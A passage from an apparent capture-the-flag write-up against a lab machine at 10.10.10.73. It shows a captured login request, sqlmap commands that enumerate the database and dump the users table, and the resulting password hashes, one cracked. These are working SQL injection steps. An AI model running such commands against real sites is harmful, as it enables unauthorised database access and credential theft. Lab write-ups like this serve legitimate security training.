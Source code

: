 That `cyberlaw.txt` looks pretty:

```
...
A user named "chris" has informed me that he could log into MY account without knowing the password,
then take FULL CONTROL of the website using the image upload feature.
We got a cyber protection on the login form, and a senior php developer worked on filtering the URL of the upload,
so I have no idea how he did it.
...
```

Nice way to discover that `chris` user without bruteforcing the login page. Now let's go back to SQL injections using sqlmap and my request file:

```
POST /login.php HTTP/1.1
Host: 10.10.10.73
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.73/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Connection: close
Cookie: PHPSESSID=qodc8rfqevdk39tk4liecpcb04
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

```
sqlmap -r login_request --level=5 --risk=3 --dbs -p username,password --batch
```

But it does not work. However because I know SQL injections are possible on that page, I can try to be more precise:

```
sqlmap -r login_request --level 5 --risk 3 -p username,password --batch --dbms mysql --string "Wrong identification" --dbs
```

There it is!

```
available databases [2]:
[*] falafel
[*] information_schema
```

Digging a bit I easily find some creds:

```
$ sqlmap -r login_request --level 5 --risk 3 -p username,password --batch --dbms mysql --string "Wrong identification" -D falafel -T users --dump
...
+----+--------+---------------------------------------------+----------+
| ID | role   | password                                    | username |
+----+--------+---------------------------------------------+----------+
| 1  | admin  | 0e462096931906507119562988736854            | admin    |
| 2  | normal | d4ee02a22fc872e36d9e3751ba72ddc8 (juggling) | chris    |
+----+--------+---------------------------------------------+----------+
```
